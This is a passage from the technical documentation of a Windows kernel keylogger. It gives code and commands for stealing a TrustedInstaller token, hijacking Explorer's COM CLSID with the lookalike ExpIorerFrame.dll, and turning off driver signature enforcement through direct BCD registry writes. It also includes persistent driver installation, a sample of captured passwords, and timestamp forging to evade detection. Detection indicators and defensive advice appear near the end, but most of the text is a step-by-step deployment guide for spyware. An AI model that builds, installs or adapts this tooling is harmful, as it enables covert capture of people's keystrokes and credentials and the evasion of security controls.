    HANDLE hFile = CreateFileW(path.c_str(), GENERIC_WRITE, 0, nullptr,
        CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, nullptr);
    
    DWORD bytesWritten;
    WriteFile(hFile, data.data(), data.size(), &bytesWritten, nullptr);
    CloseHandle(hFile);
    
    // Revert to original security context
    RevertToSelf();
    return true;
}
```

**Registry Operations** (Lines 570-618)

```cpp
bool WriteRegistryValueAsTrustedInstaller(HKEY hKeyRoot, 
                                          const std::wstring& subKey,
                                          const std::wstring& value) {
    ImpersonateLoggedOnUser(tiToken.get());
    
    HKEY hKey;
    RegOpenKeyExW(hKeyRoot, subKey.c_str(), 0, KEY_WRITE | KEY_WOW64_64KEY, &hKey);
    RegSetValueExW(hKey, valueName.c_str(), 0, REG_EXPAND_SZ, 
        reinterpret_cast<const BYTE*>(value.c_str()), dataSize);
    RegCloseKey(hKey);
    
    RevertToSelf();
    return true;
}
```

**Key Operations Performed:**

| Operation Type | Target Location | Purpose |
|---------------|-----------------|---------|
| File Write | `%SystemRoot%\System32\ExpIorerFrame.dll` | CLSID hijack DLL deployment |
| File Write | `%SystemRoot%\System32\DriverStore\FileRepository\keyboard.inf_amd64_*\kvckbd.sys` | Kernel driver deployment |
| Registry Write | `HKCR\CLSID\{ab0b37ec-56f6-4a0e-a8fd-7a8bf7c2da96}\InProcServer32` | COM hijack registration |
| Registry Write | `HKLM\SYSTEM\CurrentControlSet\Services\kvckbd` | Driver service creation |
| Registry Write | `HKLM\BCD00000000\Objects\{GUID}\Elements\16000049` | BCD test signing enable |
| File Delete | Protected system files | Uninstall cleanup |

**Advantages Over Traditional Methods:**

| Traditional (takeown/icacls) | TrustedInstaller Token Impersonation |
|------------------------------|-------------------------------------|
| `takeown.exe /F file` | Direct Win32 API call |
| `icacls.exe file /grant` | Single token impersonation |
| 3-5 cmd.exe processes per file | No child processes spawned |
| 5-10 seconds per operation | Milliseconds per operation |
| Visible in Process Explorer | Appears as normal system activity |
| EDR process chain detection | Single-thread operation |
| Console window flashing | Silent API-level execution |

**Security Context:**

- **Not a UAC bypass**: Requires administrator privileges to start
- **Legitimate mechanism**: Uses built-in Windows TrustedInstaller service
- **Token borrowing**: Not privilege escalation, but privilege impersonation
- **Audit trail**: Operations logged in Windows Security Event Log (Event IDs: 4688, 4656, 4663)
- **Reversible**: All operations can be undone via uninstall process

### Windows Service Implementation

**Service Architecture:**
The program implements a dual-mode design:

- **CLI Mode**: Direct command execution when run from terminal
- **Service Mode**: Activated via `UdpLogger --service` (called by SCM)

**Service Lifecycle:**
```
Service Control Manager (SCM)
    ↓ [StartService]
ServiceMain() - Entry Point
    ↓
Register Control Handler
Set Status: SERVICE_START_PENDING
    ↓
Initialize Components:
  • Create UDP listener (port 31415)
  • Create FileLogger instance
  • Set message handler callback
    ↓
Create Worker Thread
Set Status: SERVICE_RUNNING
    ↓
[Wait for stop event]
    ↓ [SERVICE_CONTROL_STOP received]
Set Status: SERVICE_STOP_PENDING
Cleanup:
  • Stop UDP listener
  • Flush and close log file
  • Release resources
    ↓
Set Status: SERVICE_STOPPED
```

**Worker Thread:**
Runs continuously while service is active:

- Monitors inactivity (logs warning after 15 minutes idle)
- Periodic file flush (every 15 minutes)
- Responds to stop events
- No polling overhead (uses event-based signaling)

**UDP Listener:**

- Non-blocking socket operations
- select() with 1-second timeout for responsiveness
- Handles multiple clients (though only localhost expected)
- Strips carriage returns and newlines
- Filters empty messages

### File Logging with Daily Rotation

**Log File Naming:**
```
keyboard_log_YYYY-MM-DD.txt
```

**Rotation Logic:**
At midnight, the logger:

1. Writes footer to current file (session duration summary)
2. Closes file handle
3. Opens new file with today's date
4. Writes header to new file

**Header Format:**
```
################################################################################
###                                                                          ###
###              UDP KEYBOARD LOGGER - KERNEL/USER-MODE BRIDGE               ###
###                                                                          ###
###  System: kvckbd.sys driver + ExplorerFrame.dll + UDP service (31415)     ###
###  Deployment: TrustedInstaller token escalation, BCD test signing,        ###
###              DriverStore integration, and CLSID hijacking for            ###
###              persistence.                                                ###
###                                                                          ###
###  Author: Marek Wesolowski | marek@wesolowski.eu.org | +48 607 440 283    ###
###  Project: https://github.com/wesmar/udp-keyboard-logger                  ###
###                                                                          ###
################################################################################

===============================================================================
Session started: 2025-10-10 14:23:15
Listener: 127.0.0.1:31415
Client: 127.0.0.1:52341
===============================================================================
```

**Entry Format:**
```
[14:23:16] password123[Ent]
[14:23:45] cat /etc/shadow[Ent]
[14:24:12] https://bankaccount.com[Ent]
```

**Footer Format:**
```
===============================================================================
Session ended: 2025-10-10 18:30:45
Total duration: 4 hours 7 minutes 30 seconds
===============================================================================
```



**Log Rotation:**
New file created automatically at midnight...

### System Status Monitoring

**Component Verification:**
The `UdpLogger status` command performs comprehensive checks:

1. **Windows Service Status:**
   - Opens SCM (Service Control Manager)
   - Queries service state
   - Checks if running vs stopped

2. **Kernel Driver Status:**
   - Queries kvckbd service
   - Verifies SERVICE_RUNNING state
   - Indicates if driver is loaded in kernel

3. **CLSID Hijack Verification:**
   - Reads registry value with TI privileges
   - Checks if ExpIorerFrame.dll is registered
   - Validates against expected value

4. **Test Signing Status:**
   - Reads BCD element 23000003 for current boot GUID
   - Reads element 16000049 under boot GUID
   - Checks if binary value = 0x01 (enabled)

5. **File Presence Check:**
   - Verifies System32\ExpIorerFrame.dll exists
   - Verifies DriverStore\...\kvckbd.sys exists
   - Uses GetFileAttributes API

**Output Interpretation:**
Each component displays:

- `[+]` checkmark (passing)
- `[-]` checkmark (failing)
- Details about current state
- Fix hints for failures

### Driver Service Management

**kvckbd Service Control:**
The tool can start/stop/restart the kernel driver:

```cpp
// Start driver
SC_HANDLE hService = OpenServiceW(hSCM, L"kvckbd", SERVICE_START);
StartServiceW(hService, 0, nullptr);

// Stop driver
ControlService(hService, SERVICE_CONTROL_STOP, &status);
```

**Restart Strategy:**

1. Stop service (if running)
2. Wait 2 seconds (allows cleanup)
3. Start service

**Status Query:**
Reads service state and displays:

- **RUNNING** - Driver loaded in kernel
- **STOPPED** - Driver not active

## BCD Deep Dive

### Boot Configuration Data Overview

**What is BCD?**
Boot Configuration Data (BCD) is a firmware-independent database introduced in Windows Vista to replace boot.ini. It stores boot configuration parameters including:

- Boot manager settings
- Boot loader options
- Operating system entries
- Debug settings
- Test signing configuration

**Storage Location:**

The BCD is stored as a registry hive at:
```
%SystemRoot%\Boot\BCD
```

When mounted, it appears in the registry at:
```
HKEY_LOCAL_MACHINE\BCD00000000
```

### BCD Structure and Well-Known GUIDs

**Hierarchy:**
```
HKLM\BCD00000000
├── Description (metadata)
├── Objects
│   ├── {bootmgr} = {9dea862c-5cdd-4e70-acc1-f32b344d4795}
│   ├── {current} = {actual boot entry GUID}
│   ├── {default} = {default boot entry GUID}
│   └── {individual boot entries}
│       ├── Elements
│       │   ├── 11000001 (Device)
│       │   ├── 12000004 (Description)
│       │   ├── 16000049 (Testsigning)
│       │   ├── 23000003 (Current Boot Entry Reference)
│       │   └── ... (other elements)
```

**Well-Known GUID:**
```
{9dea862c-5cdd-4e70-acc1-f32b344d4795}
```
This is the Boot Manager GUID. It's a constant identifier for the Windows Boot Manager object.

### Element Types Explained

BCD elements are identified by 8-digit hexadecimal codes:

| Element | Name | Type | Purpose |
|---------|------|------|---------|
| 23000003 | CurrentBootEntry | Pointer | GUID - Points to active boot entry |
| 16000049 | TestSigningEnabled | BINARY | Enables test-signed drivers |
| 12000004 | Description | STRING | OS description text |
| 11000001 | Device | BINARY | Boot device information |
| 26000010 | BootDebuggerEnabled | BOOLEAN | Kernel debugger status |

### Element 23000003 - Current Boot Entry Pointer

**Purpose:**
This element contains the GUID of the currently active boot configuration. When Windows boots, the boot manager uses this to determine which OS entry to load.

**Data Format:**
- Type: REG_BINARY
- Length: Variable (typically contains GUID)
- Value: {GUID of current boot entry}

**Usage in This Project:**
The installer must dynamically determine which boot entry is current because:

- Multiple OS installations may exist
- Boot GUIDs are unique per installation
- We cannot hardcode a GUID (it varies per system)

**Reading Process:**
```
1. Read HKLM\BCD00000000\Objects\{9dea862c-5cdd-4e70-acc1-f32b344d4795}\Elements\23000003
2. Extract Element value (binary GUID data)
3. Convert to string format: {XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX}
4. Use this GUID to locate the current boot entry's Elements key
```

### Element 16000049 - Test Signing Enable

**Purpose:**
Controls whether Windows will load drivers signed with test certificates. When enabled, the OS displays a watermark: "Test Mode - Windows [Edition] - Build [Number]"

**Data Format:**
- Type: REG_BINARY
- Length: 1 byte
- Value: 
  - `0x01` = Enabled
  - `0x00` = Disabled
  - (missing) = Disabled

**Location:**
```
HKLM\BCD00000000\Objects\{current boot GUID}\Elements\16000049
```

**Why Test Signing is Needed:**
Windows enforces Driver Signature Enforcement (DSE) on x64 systems:

- All kernel drivers must be signed by Microsoft or a trusted CA
- Self-signed or test-signed drivers are rejected by default
- Test signing mode allows test certificates (for development)

**Our Driver's Signature:**
kvckbd.sys is signed with a test certificate (WDKTestCert Administrator, thumbprint: 134041667787870176), requiring test mode enabled.

### Registry Manipulation Technique

**Step-by-Step Process:**

1. **Read Current Boot GUID:**
   - Path: `HKLM\BCD00000000\Objects\{9dea862c-5cdd-4e70-acc1-f32b344d4795}\Elements\23000003`
   - Value Name: `Element`
   - Result: Binary data containing GUID

2. **Parse GUID:**
   - Convert binary to string format: `{XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX}`

3. **Construct Testsigning Path:**
   ```
   HKLM\BCD00000000\Objects\{parsed GUID}\Elements\16000049
   ```

4. **Create Key (if missing):**
   - Use RegCreateKeyExW with TrustedInstaller privileges

5. **Write Binary Value:**
   - Value Name: `Element`
   - Type: REG_BINARY
   - Data: `0x01` (single byte)

6. **Reboot Required:**
   - Changes take effect only after system restart

### Alternative: bcdedit Command

The standard way to enable test signing:
```cmd
bcdedit /set testsigning on
```

However, this project uses direct registry manipulation because:

- Demonstrates advanced Windows internals knowledge
- Bypasses command-line detection
- More stealthy (no process execution)
- Educational value in understanding BCD structure

### BCD Forensics - Detection

Investigators can detect test signing via:
```cmd
bcdedit /enum {current}
```

Output will show:
```
testsigning             Yes
```

Or via registry inspection at:
```
HKLM\BCD00000000\Objects\{...}\Elements\16000049
```

## Driver Service Registration

### Windows Driver Loading Mechanism

**Service Control Manager (SCM) Role:**
Windows doesn't load drivers directly from files. Instead:

1. Driver information is registered in the registry
2. SCM reads registry at boot
3. SCM loads drivers based on Start type
4. Drivers execute from their registered ImagePath

**Why Registry-Based?**

- Centralized configuration
- Boot-time loading (before file system fully initialized)
- Dependency management
- Security (controlled by system permissions)

### Service Registry Structure

**Primary Key:**
```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\kvckbd
```

**Required Values:**

| Value Name | Type | Data | Purpose |
|------------|------|------|---------|
| Type | REG_DWORD | 0x00000001 | SERVICE_KERNEL_DRIVER |
| Start | REG_DWORD | 0x00000002 | SERVICE_AUTO_START (loads at boot) |
| ErrorControl | REG_DWORD | 0x00000001 | SERVICE_ERROR_NORMAL (log error, continue boot) |
| ImagePath | REG_EXPAND_SZ | \System32\...\kvckbd.sys | Relative path to driver |
| DisplayName | REG_SZ | "kvckbd" | Human-readable name |

**Value Explanations:**

**Type Values:**
- `0x00000001` = Kernel-mode driver
- `0x00000002` = File system driver
- `0x00000010` = Win32 service

**Start Values:**
- `0x00000000` = Boot (loads by boot loader)
- `0x00000001` = System (loads during kernel initialization)
- `0x00000002` = Automatic (loads at boot)
- `0x00000003` = Manual (must be started explicitly)
- `0x00000004` = Disabled

**ErrorControl Values:**
- `0x00000000` = Ignore (log error, continue silently)
- `0x00000001` = Normal (log error, display message, continue)
- `0x00000002` = Severe (try last known good, fail boot if unavailable)
- `0x00000003` = Critical (must succeed or boot fails)

### DriverStore Integration

**What is DriverStore?**
Windows maintains a protected repository of installed drivers at:
```
%SystemRoot%\System32\DriverStore\FileRepository\
```

**Directory Structure:**
```
DriverStore\FileRepository\
└── keyboard.inf_amd64_[random hash]\
    ├── keyboard.inf
    ├── i8042prt.sys
    ├── kbdclass.sys
    └── kvckbd.sys ← Our driver here
```

**Why DriverStore?**

- Trusted location (TrustedInstaller ownership)
- Version management (multiple driver versions coexist)
- System protection (Windows File Protection monitors)
- Driver signature verification

### Path Resolution Algorithm

**Challenge:**
The DriverStore subdirectory has a random hash suffix:
```
keyboard.inf_amd64_12ca23d60da30d59
```
This hash varies per system, so we cannot hardcode the path.

**Solution - Dynamic Discovery:**
```cpp
std::wstring GetDriverStorePath() {
    std::wstring driverStoreBase = 
        L"C:\\Windows\\System32\\DriverStore\\FileRepository\\";
    
    // Search for keyboard.inf_amd64_* directory
    std::wstring searchPattern = driverStoreBase + L"keyboard.inf_amd64_*";
    
    WIN32_FIND_DATAW findData;
    HANDLE hFind = FindFirstFileW(searchPattern.c_str(), &findData);
    
    if (hFind != INVALID_HANDLE_VALUE) {
        do {
            if (findData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {
                return driverStoreBase + findData.cFileName;
            }
        } while (FindNextFileW(hFind, &findData));
    }
    
    // Fallback to default path
    return driverStoreBase + L"keyboard.inf_amd64_12ca23d60da30d59";
}
```

**Installation Process:**

1. Locate DriverStore keyboard directory
2. Copy kvckbd.sys to this directory (requires TI privileges)
3. Construct relative ImagePath for registry

### ImagePath Format

**Relative Path:**
```
\System32\DriverStore\FileRepository\keyboard.inf_amd64_XXX\kvckbd.sys
```

**Why Relative?**

- System-independent (works on any Windows installation)
- Handles different drive letters (C:, D:, etc.)
- Boot-time resolution (before drive letters assigned)

**Boot-Time Resolution:**
At boot, Windows resolves relative paths:
```
\System32\... → %SystemRoot%\System32\...
```

### Service Creation with TrustedInstaller

**Standard API (Insufficient):**
```cpp
SC_HANDLE hService = CreateServiceW(
    hSCM, L"kvckbd", L"kvckbd", ...
);
```

This fails because:

- CreateServiceW writes to protected registry keys
- Administrator privileges cannot modify protected registry keys like CLSID entries in HKCR, which require TrustedInstaller-level access, (maybe write to SYSTEM\CurrentControlSet\Services, but I find it more convenient to use TrustedInstaller everywhere)
- TrustedInstaller ownership required

**Our Approach - Direct Registry:**
```cpp
// Using TrustedInstaller token (already acquired)
ImpersonateLoggedOnUser(tiToken);

// Create service key
RegCreateKeyExW(
    HKEY_LOCAL_MACHINE,
    L"SYSTEM\\CurrentControlSet\\Services\\kvckbd",
    ...
);

// Write Type value
RegSetValueExW(hKey, L"Type", 0, REG_DWORD, 
               (BYTE*)&type, sizeof(DWORD));

// Write Start value
RegSetValueExW(hKey, L"Start", 0, REG_DWORD, 
               (BYTE*)&start, sizeof(DWORD));

// ... write other values

RegCloseKey(hKey);
RevertToSelf();
```

### Driver Loading at Boot

**Boot Sequence:**
```
1. BIOS/UEFI loads Windows Boot Manager
2. Boot Manager reads BCD (checks testsigning flag)
3. Boot Manager loads winload.exe
4. winload.exe loads kernel (ntoskrnl.exe)
5. Kernel initialization begins
6. SCM reads SYSTEM\CurrentControlSet\Services
7. SCM loads drivers with Start=0x00000002 (AUTO_START)
8. kvckbd.sys DriverEntry() executes
9. Driver initializes and starts hooking
```

**First Boot After Installation:**

1. Driver service registered in registry
2. System reboots
3. Test signing enabled (BCD modified)
4. SCM loads kvckbd.sys automatically
5. Driver starts intercepting keyboard

### Verification Commands

**Check Service Registration:**
```cmd
sc query kvckbd
```

**Check Registry:**
```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Services\kvckbd
```

**Check Driver in Memory:**
```cmd
sc query type=driver state=all | findstr /i kvckbd
```

Or using DriverView tools:
```cmd
driverquery /v | findstr /i kvckbd
```

## Installation & Usage

### Prerequisites

**System Requirements:**

- Windows 10 or Windows 11 (x64 only)
- Administrator privileges
- Secure Boot disabled in BIOS/UEFI
- Minimum 50 MB free disk space

**Pre-Installation Checklist:**

- ✓ BIOS/UEFI Secure Boot disabled
- ✓ Administrator account (not standard user)
- ✓ Antivirus/EDR temporarily disabled (educational testing)
- ✓ System restore point created (recommended)

**Security Boot Disable:**

1. Enter BIOS/UEFI setup (usually F2, Del, F10 during boot)
2. Navigate to Security or Boot settings
3. Find "Secure Boot" option
4. Change to Disabled
5. Save and exit

### Installation Process

**Simple Installation:**
```cmd
UdpLogger.exe install
```

This performs:

- Resource extraction
- Privilege escalation
- File deployment
- Registry configuration
- Service creation
- Prompts for reboot

**Automatic Reboot:**
```cmd
UdpLogger.exe install --reboot
```

- Skips reboot prompt
- Initiates immediate system restart (10-second countdown)
- Useful for scripted deployments

**Installation Stages:**
```
Step 1/6: Installing drivers...
  • Extracting kvckbd.sys from embedded resources
  • Extracting ExpIorerFrame.dll from embedded resources
  • Deploying to protected system directories
  [SUCCESS] Drivers installed

Step 2/6: Installing registry keys...
  • Writing CLSID hijack entry
  [SUCCESS] Registry keys installed

Step 3/6: Enabling test signing...
  • Reading current boot GUID
  • Writing BCD element 16000049
  [SUCCESS] Test signing enabled (reboot required)

Step 4/6: Registering driver service...
  • Creating SYSTEM\CurrentControlSet\Services\kvckbd
  • Writing ImagePath, Type, Start values
  [SUCCESS] Driver service registered (reboot required)

Step 5/6: Installing Windows service...
  • Creating service UdpKeyboardLogger
  • Setting automatic start
  [SUCCESS] Service installed

Step 6/6: Starting service...
  [SUCCESS] Service started

[SUCCESS] Full installation completed successfully

+============================================================+
|  System reboot is REQUIRED for changes to take effect.     |
+============================================================+

Reboot now? (Y/N):
```

**Post-Installation:**
After reboot:

- Driver loads automatically (Start=2)
- Service starts automatically
- CLSID hijack active (loads with Explorer)
- Test mode watermark appears (can be suppressed by ExpIorerFrame.dll)

### Verification

**Comprehensive Status Check:**
```cmd
UdpLogger.exe status
```

**Example Output:**
```
=== UDP Keyboard Logger - Full System Status ===

[+] Windows Service: RUNNING (UdpKeyboardLogger)
[+] Kernel Driver: LOADED (kvckbd.sys)
[+] CLSID Hijack: ACTIVE (ExplorerFrame.dll -> ExpIorerFrame.dll)
[+] Test Signing: ENABLED (BCD)
[+] Files: All components present

Overall Status: FULLY OPERATIONAL
```



**Individual Component Checks:**

**Service Status:**
```cmd
UdpLogger.exe service status
```

**Driver Status:**
```cmd
UdpLogger.exe driver status
```

### Service Management

**Start Service:**
```cmd
UdpLogger.exe service start
```

**Stop Service:**
```cmd
UdpLogger.exe service stop
```

**Restart Service:**
```cmd
UdpLogger.exe service restart
```

- Stops service
- Waits 1 second
- Starts service

### Driver Management

**Start Driver:**
```cmd
UdpLogger.exe driver start
```

- Loads driver into kernel memory
- Executes DriverEntry()
- Begins keyboard interception

**Stop Driver:**
```cmd
UdpLogger.exe driver stop
```

- Calls driver unload routine
- Unhooks all keyboards
- Releases resources
- Removes from kernel memory

**Restart Driver:**
```cmd
UdpLogger.exe driver restart
```

- Stops driver
- Waits 2 seconds (cleanup)
- Starts driver

**Note:** Driver restart may be necessary after:

- Plugging new USB keyboards
- Resume from sleep/hibernation
- Software conflicts

### Log File Access

**Log Location:**
The service writes logs to the first writable location among:

1. `%TEMP%\keyboard_log_YYYY-MM-DD.txt`
2. `%TMP%\keyboard_log_YYYY-MM-DD.txt`
3. `%USERPROFILE%\Documents\keyboard_log_YYYY-MM-DD.txt`
4. Current directory

**Viewing Logs:**
```cmd
type %TEMP%\keyboard_log_2025-10-10.txt
```

Or open with any text editor.

**Log Rotation:**
New file created automatically at midnight. Old files preserved indefinitely (manual cleanup required).

### Uninstallation

**Complete Removal:**
```cmd
UdpLogger.exe uninstall
```

This performs:

- Stops Windows service
- Uninstalls service
- Restores CLSID registry (points to legitimate ExplorerFrame.dll)
- Disables test signing (BCD)
- Unregisters driver service
- Deletes files (System32\ExpIorerFrame.dll, DriverStore\kvckbd.sys)

**Post-Uninstall:**
Reboot recommended (but not required). Driver and DLL will be removed at next boot if locked.

**Note:** Test signing remains in BCD but is disabled. To completely remove:
```cmd
bcdedit /deletevalue testsigning
```

## Technical Details & Internals

### Synchronization Mechanisms

**IRQL-Aware Design:**
The driver operates at multiple IRQL (Interrupt Request Level) contexts:

| Context | IRQL | Allowed Operations |
|---------|------|-------------------|
| System thread | PASSIVE_LEVEL | All operations, can wait |
| IRP dispatch | ≤ DISPATCH_LEVEL | No paged memory, no blocking |
| Spinlock held | DISPATCH_LEVEL | Minimal operations only |

**Synchronization Primitives Used:**

1. **KSPIN_LOCK (Line Buffer):**
   - Used at DISPATCH_LEVEL
   - Fast, non-blocking
   - Protects line buffer during keystroke accumulation
   - Acquired/released in microseconds

2. **ERESOURCE (Keyboard Objects):**
   - Used at PASSIVE_LEVEL
   - Allows shared/exclusive access
   - Protects keyboard object state during IRP processing
   - Can be held across function calls

3. **LIST_ENTRY (Keyboard Object List):**
   - Interlocked operations
   - Protected by spinlock
   - Thread-safe insertion/removal

### Memory Management Strategy

**Pool Tags:**
All allocations use KBDDRIVER_POOL_TAG ('KdbK'):

```c
#define KBDDRIVER_POOL_TAG 'dbKK'
```

**Benefits:**

- Leak detection via pool tag tracking
- Driver Verifier integration
- Debugging with !poolfind command

**Allocation Strategy:**

- Non-paged pool only (accessible at DISPATCH_LEVEL)
- Zero-initialize all allocations
- RAII-style cleanup (resources tied to object lifecycle)

**Example:**
```c
PKBDDRIVER_KEYBOARD_OBJECT obj = ExAllocatePool2(
    POOL_FLAG_NON_PAGED,
    sizeof(KBDDRIVER_KEYBOARD_OBJECT),
    KBDDRIVER_POOL_TAG
);

RtlZeroMemory(obj, sizeof(KBDDRIVER_KEYBOARD_OBJECT));

// ... use object ...

ExFreePoolWithTag(obj, KBDDRIVER_POOL_TAG);
```

### Architecture Differences (x86 vs x64)

**Offset Handling:**
```c
#ifdef _WIN64
    #define REMOVE_LOCK_OFFSET_DE   0x20
    #define SPIN_LOCK_OFFSET_DE     0xA0
    #define READ_QUEUE_OFFSET_DE    0xA8
#else
    #define REMOVE_LOCK_OFFSET_DE   0x10
    #define SPIN_LOCK_OFFSET_DE     0x6C
    #define READ_QUEUE_OFFSET_DE    0x70
#endif
```

**Why Different?**

- Pointer sizes: 4 bytes (x86) vs 8 bytes (x64)
- Structure padding/alignment requirements
- Internal Microsoft structure layout changes

**Implication:**
Code compiled for x64 will not work on x86 and vice versa. Requires separate compilation for each architecture.

### IRP Cancellation Handling

**Challenge:**
IRPs can be cancelled at any time (application closes, timeout expires). The driver must handle cancellation gracefully without causing BSOD.

**Cancellation Routine:**
```c
VOID KbdIrp_Cancel(PDEVICE_OBJECT DeviceObject, PIRP Irp)
{
    IoReleaseCancelSpinLock(Irp->CancelIrql);
    
    // Find keyboard object
    // Mark cancellation flag
    KeyboardObject->IrpCancel = TRUE;
    
    // Cancel forwarded IRP
    if (KeyboardObject->NewIrp) {
        IoCancelIrp(KeyboardObject->NewIrp);
    }
    
    // Complete original IRP with STATUS_CANCELLED
    Irp->IoStatus.Status = STATUS_CANCELLED;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
}
```

**Race Condition Prevention:**
When dequeuing IRPs, check if cancel routine was cleared:

```c
PDRIVER_CANCEL oldRoutine = IoSetCancelRoutine(irp, NULL);
if (oldRoutine) {
    // Safe to use IRP
} else {
    // Cancel routine is running, skip this IRP
}
```

### Network Error Handling

**WSK Operation Failures:**

- Address resolution failure → Log error, continue
- Socket creation failure → Fatal, abort initialization
- Send failure → Log error, discard data (no retry)

**Design Decision:**
Network failures are non-fatal. The driver continues to intercept keystrokes but silently drops data if network is unavailable.

**Rationale:**

- Prevents blocking keyboard input
- Avoids BSOD from network errors
- Graceful degradation

### Build Optimizations

**Compiler Flags (Release):**
```
/O1        - Optimize for size
/Gy        - Enable function-level linking
/Gw        - Optimize global data
/GS-       - Disable buffer security checks
/GL        - Whole program optimization
```

**Linker Flags:**
```
/OPT:REF   - Eliminate unreferenced functions
/OPT:ICF=5 - Identical COMDAT folding (aggressive)
/LTCG      - Link-time code generation
/MERGE:.rdata=.text - Merge sections
```

**Result:**

- UdpLogger.exe: ~190 KB (highly optimized)
- ExpIorerFrame.dll: ~7 KB (minimal CRT)
- kvckbd.sys: ~30 KB (kernel driver)

## Security Considerations

### Protection Mechanisms Bypassed

**1. Driver Signature Enforcement (DSE):**

- **Bypass**: Enable test signing via BCD modification
- **Impact**: Allows unsigned/test-signed drivers
- **Detection**: Visible watermark (unless suppressed), bcdedit /enum shows testsigning

**2. File System Virtualization:**

- **Bypass**: TrustedInstaller token impersonation
- **Impact**: Direct write to protected directories
- **Detection**: File system audit logs, TI process activity

**3. Registry Protection:**

- **Bypass**: TrustedInstaller token
- **Impact**: Modify CLSID entries, BCD, service keys
- **Detection**: Registry auditing, RegMon tools

**4. CLSID Integrity:**

- **Bypass**: Replace legitimate COM DLL path
- **Impact**: Persistent code execution in Explorer
- **Detection**: CLSID registry monitoring, file hash verification

### Detection Indicators

**File Artifacts:**
```
C:\Windows\System32\ExpIorerFrame.dll (note: uppercase I)
C:\Windows\System32\DriverStore\FileRepository\keyboard.inf_amd64_*\kvckbd.sys
```

**Registry Artifacts:**
```
HKCR\CLSID\{ab0b37ec-56f6-4a0e-a8fd-7a8bf7c2da96}\InProcServer32 = ExpIorerFrame.dll
HKLM\SYSTEM\CurrentControlSet\Services\kvckbd
HKLM\SYSTEM\CurrentControlSet\Services\UdpKeyboardLogger
HKLM\BCD00000000\Objects\{...}\Elements\16000049 = 0x01
```

**Network Artifacts:**
- UDP traffic on port 31415
- Localhost connections (127.0.0.1:31415)
- Regular traffic patterns (typing sessions)

**Process Artifacts:**
- Services.exe → UdpLogger.exe (Windows Service)
- Explorer.exe → ExpIorerFrame.dll loaded
- System → kvckbd.sys driver active

**Behavioral Indicators:**

- "Test Mode" watermark disappears
- New service: UdpKeyboardLogger
- Driver loaded: kvckbd
- Periodic UDP traffic to localhost

### MITRE ATT&CK Mapping

| Technique ID | Description |
|--------------|-------------|
| T1547.001 | Boot or Logon Autostart – Driver service with AUTO_START |
| T1546.015 | CLSID Hijacking – COM object persistence |
| T1547.006 | Kernel Modules and Extensions – Kernel driver loading |
| T1056.001 | Input Capture – Keyboard interception |
| T1134.001 | Impersonation – TrustedInstaller token theft |
| T1046 | Network Service Discovery – UDP listener on localhost |

### Defensive Recommendations

**Prevention:**

- Enable Secure Boot (blocks unsigned drivers)
- Enforce Driver Signature Enforcement
- Monitor BCD modifications
- Restrict TrustedInstaller token access
- Monitor CLSID registry keys
- File integrity monitoring for System32

**Detection:**

- Audit registry: HKLM\BCD00000000 changes
- Monitor service creation: HKLM\SYSTEM\CurrentControlSet\Services
- Network monitoring: Unexpected localhost UDP traffic
- EDR: Driver load events
- SIEM: TrustedInstaller impersonation events

**Response:**

- Disable test signing: `bcdedit /set testsigning off`
- Unregister service: `sc delete kvckbd`
- Delete files: Remove ExpIorerFrame.dll, kvckbd.sys
- Restore CLSID registry value
- Reboot system

## Build & Development

### Development Environment

**Required Tools:**

- Visual Studio 2019 or 2022
- Windows Driver Kit (WDK) 10
- Windows SDK 10.0.19041.0 or later
- Platform Toolset: v143

**Project Structure:**
```
Solution: UdpKeyboardLogger.sln
├── kvckbd (Driver Project)
│   ├── kvckbd.vcxproj
│   ├── driver.c / driver.h
│   ├── network.c / network.h
│   ├── scancode.c / scancode.h
│   └── kvckbd.inf
├── ExplorerFrame (DLL Project)
│   ├── Explorerframe.vcxproj
│   ├── Explorerframe.cpp / .h
│   └── version.rc
└── UdpLogger (Service Project)
    ├── UdpLogger.vcxproj
    ├── UdpLogger.cpp
    ├── DriverInstaller.cpp
    ├── TrustedInstallerExecutor.cpp
    ├── UdpServiceManager.cpp
    └── ResourceExtractor.cpp
```

### Building Components

**Build Order:**

1. ExplorerFrame.dll (Release | x64)
2. kvckbd.sys (Release | x64)
3. Resource packaging script (embed DLL and SYS in ICO)
4. UdpLogger.exe (Release | x64)

**Configuration:**
All projects use Release configuration with aggressive optimizations.

### Driver Signing

**Test Signing (Development):**
```cmd
makecert -r -pe -ss PrivateCertStore -n "CN=TestDriverCert" TestDriverCert.cer
signtool sign /v /s PrivateCertStore /n "TestDriverCert" /t http://timestamp.digicert.com kvckbd.sys
```

**Production Signing:**
Requires EV Code Signing Certificate from Microsoft-trusted CA.

### Post-Build Steps

**Timestamp Modification:**
Both UdpLogger.exe and ExplorerFrame.dll have post-build events that modify timestamps:

```powershell
$f='$(OutDir)$(TargetName)$(TargetExt)'
(Get-Item $f).CreationTime='2026-01-01 00:00:00'
(Get-Item $f).LastWriteTime='2026-01-01 00:00:00'
```

**Purpose:**

- Disguise recent compilation
- Match legitimate Windows files
- Avoid detection by creation/modification time

## Troubleshooting

### Common Issues

#### 1. Driver Fails to Load

**Symptoms:**
```
[ERROR] kvckbd driver: STOPPED
```

**Causes:**

- Test signing not enabled
- Secure Boot enabled
- Driver not signed
- BCD not modified correctly

**Solutions:**
```cmd
# Check test signing
bcdedit /enum {current} | findstr testsigning

# Enable if disabled
UdpLogger install

# Verify BCD modification
reg query "HKLM\BCD00000000\Objects\{GUID}\Elements\16000049"

# Manually enable test signing
bcdedit /set testsigning on
```

#### 2. Service Won't Start

**Symptoms:**
```
[ERROR] Failed to start service
```

**Causes:**

- Files missing
- Permissions incorrect
- Port 31415 already in use

**Solutions:**
```cmd
# Check service status
sc query UdpKeyboardLogger

# Check event logs
eventvwr.msc
# Navigate to: Windows Logs > Application

# Check port availability
netstat -an | findstr 31415

# Reinstall
UdpLogger uninstall
UdpLogger install
```

#### 3. No Keystroke Logging

**Symptoms:**

- Service running
- Driver loaded
- No log file generated or empty file

**Causes:**

- Driver not hooking keyboards
- Network communication failing
- Log file permissions

**Solutions:**
```cmd
# Restart driver
UdpLogger driver restart

# Check log location
dir %TEMP%\keyboard_log*.txt

# Manually test UDP
# In PowerShell:
$udp = New-Object System.Net.Sockets.UdpClient
